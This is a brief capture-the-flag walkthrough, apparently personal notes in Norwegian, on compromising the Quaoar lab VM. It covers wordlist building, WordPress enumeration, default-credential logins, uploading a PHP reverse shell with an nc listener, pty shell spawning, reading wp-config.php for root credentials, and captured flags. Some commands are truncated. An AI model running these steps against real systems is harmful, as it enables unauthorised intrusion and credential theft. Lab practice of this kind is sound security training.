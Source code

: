 ### Quaoar - written by chris

nmap

**generere ordliste**

cewl -d 0 -m 5 -w /root/Desktop/quaoar.lst

[https://en.wikipedia.org/wiki/50000\_Quoaor](https://en.wikipedia.org/wiki/50000_Quoaor)

sort -u /root/Desktop/quaoar.lst

&gt;

/root/Desktop/quaoar2.

tr '\[:upper:\]' '\[:lower:\]'

&lt;

/root/Desktop/quaoar2.lst

&gt;

/root/Desktop/quoar

john --wordlist=/root/Desktop/quaoar.lst --rules --stdout

&gt;

/root/Desktop/qua

`wpscan --url http://10.0.0.10/wordpress --enumerate uap`

fant login`admin admin` og `wpuser wpuser`

lastet opp php-reverse-shell og connectet med

`nc -lvp 4444`

got shell med www-data som bruker

**spawne shell med python**

`python -c 'import pty;pty.spawn("/bin/bash")'`

fant flag

`www-data@Quaoar:/home/wpadmin$ cat fl`

`cat flag.txt`

`2bafe61f03117ac66a73c3c514de796e`

prøver å finne noe root fun

`find / -perm -4000 -user root 2>/dev/null`

funket ikke

sjekker ut wordpress directory og grepper etter root

sjekk /var/www/wordpress/wp-config.php først!

fant root password rootpassword!

flag i /root

**8e3f9ec016e3598c5eec11fd3d73f6fb**

cat /etc/cron.d avslører en cron-fil php5. der var flag

**d46795f84148fd338603d0d6a9dbf8de**

